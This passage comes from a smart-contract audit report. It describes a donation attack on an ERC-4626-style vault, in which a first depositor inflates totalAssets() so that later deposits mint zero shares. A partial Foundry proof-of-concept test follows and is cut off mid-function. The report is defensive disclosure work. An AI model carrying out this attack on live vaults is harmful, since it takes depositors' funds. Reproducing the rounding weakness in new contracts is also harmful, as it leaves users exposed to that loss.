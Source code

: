 ## Medium Findings

### 1. Medium - Vault may be susceptible to donation attack (securerodd)

When a user deposits into the vault, the amount of shares they will be issued is calculated by [multiplying the deposited assets by a ratio of the existing shares to current assets](https://github.com/GETProtocolDAO/locked-revenue-distribution-token/blob/ab272ced94d6bc8cc1ded2664408a3fa7ce67128/lib/revenue-distribution-token/contracts/RevenueDistributionToken.sol#L209). The result of this calculation is then rounded down, following the [ERC specifications](https://eips.ethereum.org/EIPS/eip-4626#security-considerations). The problem arises when the value of `totalAssets()` is manipulated to create unfavorable rounding for new users depositing into the vault at the benefit of users who already own shares of the vault. With sufficient capital and a gap in time between the first and second deposit, the first depositor in the vault may be able to leverage a donation attack to prevent future users from receiving any shares for their deposits.

#### Technical Details

The first user to call [`deposit()`](https://github.com/GETProtocolDAO/locked-revenue-distribution-token/blob/ab272ced94d6bc8cc1ded2664408a3fa7ce67128/lib/revenue-distribution-token/contracts/RevenueDistributionToken.sol#L99) on the GovernanceLockedRevenueDistributionToken.sol contract is [issued the same quantity of shares as the underlying assets they provide](https://github.com/GETProtocolDAO/locked-revenue-distribution-token/blob/ab272ced94d6bc8cc1ded2664408a3fa7ce67128/lib/revenue-distribution-token/contracts/RevenueDistributionToken.sol#L209). A user can abuse this to deposit a single quantity of assets in return for one share, setting the `supply` to 1. This same user could then send a large donation of underlying assets to the vault through a direct transfer and call the [`updateVestingSchedule()`](https://github.com/GETProtocolDAO/locked-revenue-distribution-token/blob/ab272ced94d6bc8cc1ded2664408a3fa7ce67128/src/LockedRevenueDistributionToken.sol#L173) function to begin increasing the `totalAssets()` value. The ability to call `updateVestingSchedule()` after a donation is a requisite for this attack due to the `totalAssets()` value [relying on the `issuanceRate`](https://github.com/GETProtocolDAO/locked-revenue-distribution-token/blob/ab272ced94d6bc8cc1ded2664408a3fa7ce67128/lib/revenue-distribution-token/contracts/RevenueDistributionToken.sol#L271). The required capital for a successful donation attack will diminish over the course of a 14 day period. The below POC can be added to Compound.t.sol to show the donation amount needed to round another depositor's share issuance to 0 after 1 day has passed between deposits:

```solidity
function testDonationAttack() public {
    // after set up, allow alice to withdraw all but a dust amount from the vault
    // we warp ahead in time to avoid withdrawal penalties to ensure the vault is left with only dust
    vm.startPrank(alice);
    uint256 allButDust = 1 ether - 1;
    vault.createWithdrawalRequest((allButDust));
    uint256 afterWithdrawalPenalties = start + 26 weeks;
    vm.warp(afterWithdrawalPenalties);

    // execute the withdrawal request
    vault.executeWithdrawalRequest(0);
    vm.stopPrank();

    // print out the shares that would be minted from 1 ether
    console.log("1 ether deposit before donation attack yields _%s_ shares.", vault.previewDeposit(1 ether));

    // provide bob with starting capital
    asset.mint(bob, 14 ether + 1);

    // bob performs the donation. With a 1 day wait, it will require 14 times the capital of the other user to issue 0 shares
    // this is because the vesting schedule follows a linear issuance mechanism over the course of 14 days
    vm.startPrank(bob);
    asset.transfer(address(vault), 14 ether + 1);
```
